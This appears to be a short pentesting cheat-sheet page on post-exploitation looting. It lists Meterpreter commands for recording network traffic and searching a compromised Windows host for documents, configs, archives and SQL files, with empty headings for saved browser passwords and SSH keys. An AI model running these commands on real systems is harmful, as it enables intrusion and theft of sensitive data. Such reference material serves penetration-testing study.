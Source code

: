 ### Tcpdump

```
# Meterpreter
run packetrecorder -li
run packetrecorder -i 1
```

### Interesting files

```
#Meterpreter
search -f *.txt
search -f *.zip
search -f *.doc
search -f *.xls
search -f config*
search -f *.rar
search -f *.docx
search -f *.sql

# How to cat files in meterpreter
cat c:\\Inetpub\\iissamples\\sdk\\asp\\components\\adrot.txt

# Recursive search
dir /s
```

### Mail

### Browser

- Browser start-page:
- Browser-history:
- Saved passwords:

### Databases

### SSH-keys

## How to replicate:
